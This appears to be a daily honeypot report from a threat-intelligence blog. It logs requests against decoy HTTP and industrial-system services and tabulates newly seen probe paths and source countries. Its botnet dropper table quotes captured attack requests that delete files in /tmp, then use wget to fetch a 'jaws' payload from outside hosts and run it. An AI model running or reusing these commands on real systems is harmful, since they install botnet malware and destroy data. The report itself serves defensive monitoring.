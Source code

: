 ```yaml
---
title: "Report: 2025-08-08 "
date: 2025-08-08
desciption: "Report: 2025-08-08" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-08 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 6 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 11 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 371 requests were recorded during the day, originating from 6 different countries, with a peak of 83 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|------------------|--------------------|

## botnet_dropper_behaviour
| remote_addr    | request                                                                              |
|:---------------|:-------------------------------------------------------------------------------------|
| 8.219.188.210  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1         |
| 8.222.194.26   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |
| 143.198.83.182 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 94.26.90.236/jaws;sh+/tmp/jaws HTTP/1.1            |
| 8.219.132.136  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1         |
| 41.232.194.12  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1         |
| 197.49.180.82  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1         |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                              |
|----:|----------------------:|:-----------------------------------------------------|
|  31 |                     2 | GET /env-react.log HTTP/1.1                          |
|  62 |                     1 | GET /nO3m HTTP/1.1                                   |
|  63 |                     1 | GET /1Oth HTTP/1.1                                   |
|  73 |                     1 | GET /OdinHttpCall1754673103 HTTP/1.1                 |
|  74 |                     1 | GET /odinhttpcall1754673103 HTTP/1.1                 |
|  75 |                     1 | GET /Odin/http/call1754673103 HTTP/1.1               |
|  85 |                     1 | GET /OdinHttpCall1754686037 HTTP/1.1                 |
|  86 |                     1 | GET /Odin/http/call1754686037 HTTP/1.1               |
|  98 |                     1 | \x00\x0E8(\x06f\xCAr\xC3\xC1{\x00\x00\x00\x00\x00    |
|  99 |                     1 | \x00\x0E\x08(\x06f\xCAr\xC3\xC1{\x00\x00\x00\x00\x00 |
| 104 |                     1 | GET /odinhttpcall1754686037 HTTP/1.1                 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                    83 | US                 |
|  1 |                    75 | DE                 |
|  2 |                    61 | GB                 |
|  3 |                    33 | SC                 |
|  4 |                    23 | NL                 |
|  5 |                    17 | PL                 |
|  6 |                    14 | BG                 |
|  7 |                    11 | SG                 |
|  8 |                     8 | CH                 |
|  9 |                     5 | CN                 |
| 10 |                     4 | CA                 |
| 11 |                     4 | FR                 |
| 12 |                     3 | BE                 |
| 13 |                     3 | LT                 |
| 14 |                     3 | ZA                 |
| 15 |                     3 | RO                 |
| 16 |                     2 | LU                 |
| 17 |                     2 | SE                 |
| 18 |                     2 | EG                 |
| 19 |                     2 | IN                 |
| 20 |                     1 | IQ                 |
| 21 |                     1 | PA                 |
| 22 |                     1 | KR                 |
| 23 |                     1 | ES                 |
| 24 |                     1 | AU                 |
| 25 |                     1 | VN                 |
| 26 |                     1 | TR                 |
| 27 |                     1 | EE                 |
| 28 |                     1 | FI                 |
| 29 |                     1 | BR                 |
| 30 |                     1 | HK                 |
| 31 |                     1 | PK                 |
| 32 |                     1 | AM                 |
